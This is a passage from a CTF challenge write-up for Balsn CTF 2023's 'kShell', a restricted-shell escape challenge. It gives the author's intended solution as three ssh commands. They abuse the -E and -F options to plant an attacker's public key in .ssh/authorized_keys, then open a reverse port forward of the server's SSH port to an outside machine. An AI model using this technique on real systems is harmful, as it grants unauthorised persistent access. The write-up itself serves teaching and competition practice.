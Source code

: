 ```go
        log.Print("Request Failed: " + err.Error())
    }
    log.Println(response)
}
```

---


## kShell

- Difficulty: ★★
- Type: Misc
- Solved: 11 / 333

### Description

Simple shell escaping again!

`nc kshell.balsnctf.com 7122`

Try to run `/readflag` to get the flag!

(Please use your own access token. And each team can only have one session.)

Author: kaibro

### Source Code

- [kShell](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2023/kShell/)

### Solution

The idea of this challenge comes from a realworld case. Hope you guys like it!

Speical thanks to [Orange's oShell challenge](https://github.com/orangetw/My-CTF-Web-Challenges#oShell)!


#### Intended Solution

step 1. write a file with "your public key" filename by `-E`:

```
ssh -E "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOi8DD3ZUFWyCT5UEPzho7Qjb5CcxlOt59weYiuhIohG " 0
```

step 2. using `-F` to trigger error and then write the error message to `.ssh/authorized_keys`:

```
ssh -F "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOi8DD3ZUFWyCT5UEPzho7Qjb5CcxlOt59weYiuhIohG " 0 -E ".ssh/authorized_keys"
```

step 3. connect to your server and use `-R` to forward 22 port of challenge server:

```
ssh -R 0.0.0.0:12345:localhost:22 kaibro@yourserver
```
